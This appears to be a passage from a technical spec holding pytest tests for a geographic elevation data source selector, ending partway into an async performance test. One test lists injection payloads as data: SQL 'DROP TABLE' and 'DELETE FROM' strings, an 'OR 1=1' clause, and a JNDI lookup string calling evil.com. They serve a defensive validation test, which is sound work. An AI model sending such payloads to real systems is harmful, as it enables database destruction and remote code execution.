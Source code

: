 ```python
            {"id": "source_b", "priority": 1, "resolution_m": 1, "cost_per_query": 0.001, ...},
            {"id": "source_a", "priority": 1, "resolution_m": 1, "cost_per_query": 0.001, ...}
        ])
        
        source = selector.select_best_source(-35.5, 149.0)
        assert source['id'] == 'source_a'  # Alphabetical tie-breaker
        
    def test_input_validation(self, selector):
        """Test coordinate validation"""
        with pytest.raises(ValueError):
            selector.select_best_source(91.0, 0.0)  # Invalid latitude
        with pytest.raises(ValueError):
            selector.select_best_source(0.0, 181.0)  # Invalid longitude
            
    def test_disabled_sources_ignored(self, selector):
        """Test disabled sources are not selected"""
        # Disable all sources except global
        for source in selector.sources:
            if source['id'] != 'gpxz_global_srtm':
                source['enabled'] = False
                
        source = selector.select_best_source(-35.5, 149.0)
        assert source['id'] == 'gpxz_global_srtm'
        
    def test_sql_injection_protection(self, selector):
        """Test injection attempts in coordinates"""
        malicious_inputs = [
            ("1; DROP TABLE sources;", 0),
            ("0", "'; DELETE FROM sources;"),
            ("-90.0 OR 1=1", "0"),
            ("${jndi:ldap://evil.com}", "0")
        ]
        
        for lat, lon in malicious_inputs:
            with pytest.raises((ValueError, TypeError)):
                selector.select_best_source(lat, lon)
```

#### 5.2 Performance Tests
```python
import asyncio
import time
from concurrent.futures import ThreadPoolExecutor

class TestPerformance:
    
    async def test_concurrent_selections(self, selector):
        """Test performance under concurrent load"""
        coordinates = [
            (-35.5 + i*0.1, 149.0 + i*0.1) 
            for i in range(100)
        ]
        
        start = time.time()
        
        # Concurrent selection requests
        tasks = [
            selector.select_best_source(lat, lon) 
            for lat, lon in coordinates
        ]
        results = await asyncio.gather(*tasks)
        
        duration = time.time() - start
```